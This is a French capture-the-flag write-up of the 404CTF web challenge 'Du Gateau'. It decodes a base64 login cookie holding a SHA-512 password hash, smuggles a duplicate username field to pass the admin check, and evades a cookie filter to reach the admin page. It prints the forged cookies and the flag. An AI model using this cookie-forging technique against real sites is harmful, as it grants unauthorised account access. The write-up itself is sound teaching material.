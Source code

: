 # Du Gateau

on se connecte au [site](https://du-gateau.404ctf.fr)

 - on arrive facilement à se connecter avec n'importe quel utilisateur et mot de passe. par exemple test:test
 
 - on récupère le cookie de connexion :

 ```sql
  dXNlcm5hbWU9dGVzdDtwYXNzd29yZD1lZTI2YjBkZDRhZjdlNzQ5YWExYThlZTNjMTBhZTk5MjNmNjE4OTgwNzcyZTQ3M2Y4ODE5YTVkNDk0MGUwZGIyN2FjMTg1ZjhhMGUxZDVmODRmODhiYzg4N2ZkNjdiMTQzNzMyYzMwNGNjNWZhOWFkOGU2ZjU3ZjUwMDI4YThmZg==
  ```

- on décode avec base64 :  
```text
username=test;password=ee26b0dd4af7e749aa1a8ee3c10ae9923f618980772e473f8819a5d4940e0db27ac185f8a0e1d5f84f88bc887fd67b143732c304cc5fa9ad8e6f57f50028a8ff
```

et en cherchant bien dans le code source on peut remarquer qu'il y a une référence au **sha512**  et en tapant le sha512(test) on obtient effectivement: 
```text
ee26b0dd4af7e749aa1a8ee3c10ae9923f618980772e473f8819a5d4940e0db27ac185f8a0e1d5f84f88bc887fd67b143732c304cc5fa9ad8e6f57f50028a8ff
```

ce qui correspond à la fin du cookie de connexion.

on a donc un cookie de la forme : 
```text
username=login;password=sha512(password)
```

on test avec **admin:test**

on a le cookie suivant :
```text
dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9ZWUyNmIwZGQ0YWY3ZTc0OWFhMWE4ZWUzYzEwYWU5OTIzZjYxODk4MDc3MmU0NzNmODgxOWE1ZDQ5NDBlMGRiMjdhYzE4NWY4YTBlMWQ1Zjg0Zjg4YmM4ODdmZDY3YjE0MzczMmMzMDRjYzVmYTlhZDhlNmY1N2Y1MDAyOGE4ZmY=
```

Mais on ne parvient pas à s'authentifier.

on contourne la verification avec un cookie de la forme : 
```text
username=test;username=admin;password=sha512(password)
```
```text
dXNlcm5hbWU9dGVzdDt1c2VybmFtZT1hZG1pbjtwYXNzd29yZD1lZTI2YjBkZDRhZjdlNzQ5YWExYThlZTNjMTBhZTk5MjNmNjE4OTgwNzcyZTQ3M2Y4ODE5YTVkNDk0MGUwZGIyN2FjMTg1ZjhhMGUxZDVmODRmODhiYzg4N2ZkNjdiMTQzNzMyYzMwNGNjNWZhOWFkOGU2ZjU3ZjUwMDI4YThmZg==
```

on accède enfin à l'onglet “Mot de Passe oublié”.
Quand on regarde le code source de la page, on trouve le sha512 du mdp de l'admin:

```text
66651013935b4c2c31d9baba8fa5d37b809b10da453f293ec8f9a7fbb2ab2e2c1d69dc8d80969508028b5ec14e9d1de585929a4c0d534996744b495c325e3f3d
```

on recrée un cookie : 

```text
dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9NjY2NTEwMTM5MzViNGMyYzMxZDliYWJhOGZhNWQzN2I4MDliMTBkYTQ1M2YyOTNlYzhmOWE3ZmJiMmFiMmUyYzFkNjlkYzhkODA5Njk1MDgwMjhiNWVjMTRlOWQxZGU1ODU5MjlhNGMwZDUzNDk5Njc0NGI0OTVjMzI1ZTNmM2Q=
```

mais ce cookie est filtré.

en utilisant des propriétés du base64, on ajoute un caractère au cookie et on arrive à entrer dans la page administration : 

>404CTF{m3f13Z_V0Us_D3s_MdP_D4nS_L3s_c00k13s!}